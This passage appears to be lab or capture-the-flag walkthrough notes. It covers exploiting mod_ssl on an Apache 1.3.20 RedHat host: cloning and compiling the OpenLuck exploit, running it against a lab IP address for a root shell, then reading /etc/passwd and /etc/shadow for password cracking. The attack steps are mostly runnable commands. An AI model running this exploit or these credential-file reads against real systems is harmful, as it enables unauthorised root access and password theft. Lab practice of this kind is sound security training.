 - enum shows **RedHat Linux and Apache 1.3.20**
- exploit **mod_ssl**
```bash
git clone https://github.com/heltonWernik/OpenLuck.git 
cd OpenLuck/

apt install libssl-dev
# compile
gcc -o openluck OpenFuck.c -lcrypto
./openluck
# Usage: ./openluck target [portl [-c N]
# - N = open connections 40-50 if unkown
# - target can be found from list from linux and apache version

./openluck 0x6b 192.168.57.134 -c 40
```
- access
```bash
whoami # root access
cat /etc/passwd
cat /etc/shadow
# possibility to start password cracking
```
